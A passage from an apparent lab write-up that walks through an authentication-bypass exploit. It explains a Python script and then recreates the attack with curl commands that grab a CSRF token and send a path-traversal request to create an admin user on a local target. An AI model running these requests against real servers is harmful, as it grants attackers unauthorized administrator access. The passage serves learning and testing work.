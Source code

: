 The function takes one argument `target_url`.

Two hard-coded variables are declared `username` &amp; `password`, which we saw previously are used to create the user account.

Next it attempts to retrieve the `csrf` token by running the `csrf_token` function, which if successful will return the `csrf_token` variable, if it is valid e.g. does not return `None`, it will then run the `add_credentials` function to create the user on the host. If `None` e.g. a `csrf` token is not found it will tell us, suggesting it is not vulnerable.

Any `requests.RequestException` errors are caught and ignored `pass`.


### Side-Quest Recreating the exploit just using `curl`: {#side-quest-recreating-the-exploit-just-using-curl}

This is just to show how simple this exploit is. I like doing side-quests like these to further cement the learning, if you want you can just use the downloaded exploit. But as you'll see it's possible to just recreate this exploit on the command line as it's just two `curl` commands. The first to retrieve the `csrf` token and the second to create the user.

```shell
# Set our target url.
target_url="http://127.0.0.1:8000"

#Url Encode our Username & Password as these are sent via url
username=$(python3 -c "import urllib.parse; print(urllib.parse.quote('bloodstiller'))")
password=$(python3 -c "import urllib.parse; print(urllib.parse.quote('bL00dsT11L3r'))")

# Retrieve the 'csrf token'
curl "$target_url/login.jsp" | grep -i 'csrf'
csrf_token="GS7T6L1u3xxBCzq"

# Set Vulerable Path
vuln_path="/setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=${csrf_token}&username=${username}&password=${password}&passwordConfirm=${password}&isadmin=on&create=Create%2bUser"

# Send Curl request
curl -L -X GET "$target_url$vuln_path" \
  -H "Accept-Encoding: gzip, deflate" \
  -H "Accept: */*" \
  -H "Accept-Language: en-US;q=0.9,en;q=0.8" \
  -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)" \
  -H "Connection: close" \
  -H "Cache-Control: max-age=0" \
  -H "Cookie: csrf=$csrf_token"
```

-   {{< figure src="/ox-hugo/2025-04-21-100527_.png" >}}
    -   As you can see it threw an `Exception` (it will do this in python as well however in the python script there is `Exception` handling)

And we are in!

-   {{< figure src="/ox-hugo/2025-04-21-100407_.png" >}}

